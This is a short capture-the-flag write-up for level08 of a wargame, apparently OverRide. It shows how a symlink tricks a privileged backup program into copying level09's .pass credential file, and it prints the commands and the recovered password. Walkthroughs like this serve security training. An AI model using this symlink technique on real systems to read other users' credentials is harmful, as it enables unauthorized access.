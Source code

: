 ## Project README: Finding flag08

We have a small program, after decompile it, we gain the [source code](./source).
The program seems to open a file a create a back up of the file given as argument.

### Analysis

Since we can make a backup of file and the program is made by **level09**, we want to generate a back up of `/home/users/level09/.pass`.

### Progress

To do so, we try to create a file called `/home/users/level09/.pass` into `level08` directory but we cannot do this, bash doesn't allow it.

So we decided to try a symlink with the file we want to open and put it into our current directory:

```sh
level08@OverRide:~$ ln -s /home/users/level09/.pass .file
level08@OverRide:~$ ./level08 .file
level08@OverRide:~$ cat backups/.file
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

And voila.
